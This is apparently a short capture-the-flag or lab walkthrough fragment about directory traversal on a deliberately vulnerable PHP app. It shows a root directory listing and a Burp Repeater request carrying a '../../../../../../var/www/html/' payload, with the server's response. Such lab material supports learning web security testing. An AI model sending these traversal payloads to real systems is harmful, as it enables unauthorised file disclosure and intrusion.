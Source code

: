 ```http
<div id="main">
    
    <h1>Directory Traversal - Directories</h1>

    <a href="..//lib" target="_blank">lib</a><br /><a href="..//srv" target="_blank">srv</a><br /><a href="..//media" target="_blank">media</a><br /><a href="..//tmp" target="_blank">tmp</a><br /><a href="..//app" target="_blank">app</a><br /><a href="..//usr" target="_blank">usr</a><br /><a href="..//start-apache2.sh" target="_blank">start-apache2.sh</a><br /><a href="..//lib64" target="_blank">lib64</a><br /><a href="..//var" target="_blank">var</a><br /><a href="..//sbin" target="_blank">sbin</a><br /><a href="..//run.sh" target="_blank">run.sh</a><br /><a href="..//create_mysql_admin_user.sh" target="_blank">create_mysql_admin_user.sh</a><br /><a href="..//home" target="_blank">home</a><br /><a href="..//.dockerenv" target="_blank">.dockerenv</a><br /><a href="..//proc" target="_blank">proc</a><br /><a href="..//run" target="_blank">run</a><br /><a href="..//opt" target="_blank">opt</a><br /><a href="..//bin" target="_blank">bin</a><br /><a href="..//sys" target="_blank">sys</a><br /><a href="..//root" target="_blank">root</a><br /><a href="..//start-mysqld.sh" target="_blank">start-mysqld.sh</a><br /><a href="..//dev" target="_blank">dev</a><br /><a href="..//boot" target="_blank">boot</a><br /><a href="..//etc" target="_blank">etc</a><br /><a href="..//mnt" target="_blank">mnt</a><br /><a href="..//dmp.sql" target="_blank">dmp.sql</a><br /><a href="..//mysql-setup.sh" target="_blank">mysql-setup.sh</a><br />

</div>
    
[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_2.php?directory=../../../../../../var/www/html/ HTTP/1.1 📌
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:12:29 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 33252
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Directories</h1>

```